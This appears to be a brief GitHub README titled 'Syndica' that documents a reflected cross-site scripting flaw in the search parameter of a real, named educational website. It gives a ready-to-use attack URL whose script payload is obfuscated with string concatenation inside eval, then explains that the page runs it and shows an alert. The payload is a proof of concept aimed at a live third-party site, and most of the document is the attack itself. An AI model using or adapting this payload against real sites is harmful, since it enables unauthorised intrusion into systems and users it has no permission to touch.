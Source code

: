 # Syndica

# Command 
```HTML
https://dism.edu.sg/search?<script>eval("a"+"lert('xss_by_sam_tan')")</script>=script****
```

# Explaination
- The search parameter is vulnerable to reflected XSS.
- The payload `<script>eval("a"+"lert('xss_by_sam_tan')")</script>` is injected into the search parameter.
- When the search results are displayed, the script is executed, displaying an alert box with the message `xss_by_sam_tan`.
